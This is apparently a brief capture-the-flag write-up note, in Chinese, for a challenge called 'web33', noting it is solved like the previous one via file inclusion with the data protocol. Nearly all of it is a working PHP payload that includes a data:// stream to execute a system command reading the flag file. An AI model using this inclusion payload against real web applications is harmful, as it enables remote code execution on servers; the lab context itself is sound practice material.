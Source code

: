 # web33
同32
文件包含+data协议
?c=include$_GET[1]?>&1=data://text/plain,<?php system("tac flag.php");?>
![](vx_images/541118820684511.png)
